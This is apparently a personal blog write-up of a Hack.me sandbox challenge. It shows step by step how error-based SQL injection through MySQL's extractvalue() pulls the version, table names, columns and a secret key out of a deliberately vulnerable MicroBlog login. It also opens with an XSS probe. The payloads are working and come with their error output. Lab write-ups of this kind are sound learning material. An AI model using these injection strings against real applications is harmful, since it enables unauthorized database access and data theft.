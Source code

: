 ```yaml
---
title: SQL Injection
date: "2017-05-21T22:40:32.169Z"
layout: post
path: "/hack.me/sqli/"
category: "Hack.me"
tile: "md-tile"
color: "hackme"
readTime: "20"
hide: false
description: "This challenge revolves around using sql injection to get past a login prompt. It appears to have some filtering, so I'm forced to use output for data exfiltration."
---
```


<div class='daily-hack-box'>
	<table class='table'>
		<thead>
		</thead>
		<tbody>
			<tr>
				<th scope='row'>Challenge</th>
				<td>Hack my MicroBlog and find your secret key!</td>
			</tr>
			<tr>
				<th scope='row'>Method</th>
				<td>SQL Injection (SQLi)</td>
			</tr>
			<tr>
				<th scope='row'>Link</th>
				<td><a class='table-link' target='_blank' href='https://hack.me/102464/hack-my-microblog12.html'>https://hack.me/102464/hack-my-microblog12.html</a></td>
			</tr>
			<tr>
				<th scope='row'>Flag</th>
				<td>6o13h7cse80u93qgnpp12aji53:ToZ9</td>
			</tr>
			<tr>
				<th scope='row'>Sources</th>
				<td><a class='table-link' target='_blank' href='https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/'>https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/</a>
				<br><a class='table-link' target='_blank' href='https://www.exploit-db.com/docs/33253.pdf'>https://www.exploit-db.com/docs/33253.pdf</a></td>
			</tr>
		</tbody>
	</table>
</div>

### Daily Hack #2 Writeup
Opening the sandbox and I see two input fields, `nickname` and a `thoughts` field.  I start with a nickname of `<script>alert('xss');</script>` and thoughts field of `'or 1=1` to test for both cross-site scripting and SQL injection.  The response makes it obvious that I need to use a SQLi attack vector.

<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '')' at line 1
</div>

This appears to be an `INSERT` statement.  Seems to be telling me to find MySQL version, so I pull up a SQL cheat sheet that matches my criteria, and find this handy statement:

```sql
' or extractvalue(rand(),concat(0x3a,version())) or '
```

My goal here, is to use the only output (MySQL errors) to help facilitate data extraction.  I am using the `ExtractValue()` function to take the evaluated results of my sql queries and append them into the SQL error generated when the data passed to `ExtractValue()` is not parseable XML.

As you can see, this error also spits out the MySQL version.

<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>XPATH syntax error: ':5.1.65-community-log'
</div>

Let's take a look into the tables we can find through the `ExtractValue()` error attack vector.

```
' or extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=database() LIMIT 0,1))) or '
```

The error message that follows reveals that there is a table named `comments_text` which doesn't sound promising.  

** It is here that I should note I didn't document a step. Initially I tried without the `LIMIT 0,1`.  The resulting error simply stated that the `subquery returns more than 1 row`, which means that I have to look through each table individually.  This is something that can be done manually for a small database, but for a large database with many tables, I would highly recommend automating that process.  For now, simply adding `LIMIT 0,1` can help me look through the first table and for each following table I simply iterate to `LIMIT 1,1`.


```
' or extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema=database() LIMIT 1,1))) or '
```

Which results in an interesting error message.

<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>XPATH syntax error: '::secret'
</div>


Now I have the information I desire, clearly our usernames and secret keys would be found within the `secret` table!  Next, I need to find the columns of the table so I can start data extraction.

```
' or extractvalue(rand(),concat(0x3a,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='secret' LIMIT 0,1))) or '
```

<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>XPATH syntax error: ':userid'
</div>


Okay, there is the `userid` field, now we also need the secret key.  I iterate the `LIMIT 0,1` again.

```
' or extractvalue(rand(),concat(0x3a,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='secret' LIMIT 1,1))) or '
```

<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>XPATH syntax error: ':secretkey'
</div>

Okay!  Now we know that the table `secret` contains both the `userid` and the `secretkey`, both objectives of this challenge.  The next step is to simply extract the data.


```
' or extractvalue(rand(),concat(0x3a,(SELECT concat(userid,0x3a,secretkey) FROM secret LIMIT 0,1))) or '
```


<div class='text-response'>
	Ops..r u trying to hack me? hope this helps =>XPATH syntax error: ':6o13h7cse80u93qgnpp12aji53:ToZ9'
</div>


We have achieved our objective!  I thought this was a fun challenge and a good way to learn to play with SQL errors and data extraction.


